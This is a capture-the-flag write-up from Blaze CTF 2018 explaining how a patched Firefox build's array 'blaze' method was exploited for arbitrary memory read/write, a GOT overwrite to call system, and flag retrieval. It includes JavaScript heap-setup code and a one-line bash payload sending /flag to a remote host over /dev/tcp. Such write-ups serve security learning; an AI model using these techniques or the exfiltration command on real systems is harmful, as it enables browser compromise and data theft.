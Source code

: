 ```yaml
---
layout: post
title: blazefox - Blaze CTF 2018
date: '2018-04-27 19:00:00'
---
```


> No one gave us a firefox 0day last year, so we'll make it a little easier for you this time.
> 
> nc blazefox.420blaze.in 1337
> 
> [blaze patch and instructions for rolling](https://github.com/vakzz/ctfs/raw/master/Blaze2018/blazefox/blaze_firefox_small.tar.gz)
> 
> also smoke this [fully built binary](https://s3.us-east-2.amazonaws.com/blazefox/blazefox/blaze_firefox_dist_large.tar.gz) (600 MB)
> 
> Author : itsZN


*420 points, 9 Solves, pwn*

We are given a nigthly version of firefox that has been patched to add a new function to arrays called `blaze`, which modifies the capacity of the array to be 420 without acutally updating the underlying storage. This allows us to read and write to arbitrary data that is located just after the array.

I relied heavily on  [Share with care: Exploiting a Firefox UAF with shared array buffers](https://phoenhex.re/2017-06-21/firefox-structuredclone-refleak#turning-a-use-after-free-into-a-readwrite-primitive) for this challenge.

The general idea was to allocate an `Array` followed by two small `ArrayBuffer`s (so that they have their data inline) and use the `blaze` method on the inital array to access and modify the length of the first `ArrayBuffer`. By placing a magic value in the second `ArrayBuffer`, we can locate the index of this, and then work backwards to change the header allowing us to read/write to anywhere.

```javascript
arr = [0x11223344];

ab = new ArrayBuffer(32);
overwrite_len = new Uint32Array(ab);
overwrite_len[0] = 0x77777777;

victim_ab = new ArrayBuffer(32);
victim = new Uint32Array(victim_ab);
victim[0] = 0x88888888;
```

Looking for `0x11223344` in gdb shows finds two locations, and examining the second one shows us what we are after: 

![gdb](/assets/blaze18/firefox_gdb.jpg)

We can see the size `0xfff8800000000008` that we want to modify, which we can do by calling `arr.blaze()` then setting `arr[7] = 0x10000;`.  This allows us to iterate through the first array buffer and find the contents of the second array buffer.

![gdb](/assets/blaze18/firefox_gdb2.jpg)

The memory location of the second array buffer is at `0x00007f89218d60c0` but shifted to the right by one, so shifting` 0x00003fc490c6b070<<1 == 0x7f89218d60e0` which is where we can see `0x88888888`.

We can now modify this value to any address we want (right shifted) using the first array buffer, then use the second array buffer to read or write to the new arbitary address.

The next part of the exploit was taken straight from <https://github.com/phoenhex/files/blob/master/exploits/share-with-care/exploit.js> with just changing a few offsets. The basic idea was to leak a native function `Date.now` and calculate the base address of libxul.so, then leak a GOT entry and calculate the base address of libc and then have `system`. We then overwrite the `memmove` got with system and trigger a copy with our payload to copy the flag `bash -ic 'cat /flag > /dev/tcp/my.host/12345' &`

`flag{fire_just_makes_the_blaze_better}`

[Full exploit code here.](https://github.com/vakzz/ctfs/blob/master/Blaze2018/blazefox/exploit.html
